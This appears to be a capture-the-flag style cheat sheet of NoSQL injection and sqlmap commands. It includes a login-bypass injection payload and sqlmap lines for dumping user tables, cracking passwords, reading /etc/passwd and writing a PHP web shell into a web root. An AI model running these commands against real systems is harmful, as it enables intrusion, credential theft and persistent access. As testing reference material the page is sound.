 {% tab title="NoSQL Basics" %}
### NoSQL Basics

| Command                                                            | Description                                                       |
| ------------------------------------------------------------------ | ----------------------------------------------------------------- |
| `show dbs;`                                                        | List all the databases present                                    |
| `use user_creds;`                                                  | Switch to database named "user\_creds"                            |
| `show collections;`                                                | List out the collections in a database                            |
| `db.flag.find().pretty()`                                          | Dump the contents of the documents present in the flag collection |
| `http://url?login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto` | Basic NoSQLi Login                                                |
{% endtab %}

{% tab title="SQLmap" %}
### SQLmap

| Command                                                                                                                   | Description                                                 |
| ------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------- |
| `sqlmap -h`                                                                                                               | View the basic help menu                                    |
| `sqlmap -hh`                                                                                                              | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`                                                                | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`                                                               | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`                                                              | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                                                                                       | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=abcdefghijklmnop'`                                                                        | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`                                                                     | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`                                             | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`                                                            | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`                                                     | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`                                                                          | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`                                  | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`                                                             | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`                                      | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`                             | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                                                                       | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`                                                               | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`                                                            | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                                                                                   | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`                                                              | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`                                                      | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`                 | Writing a file                                              |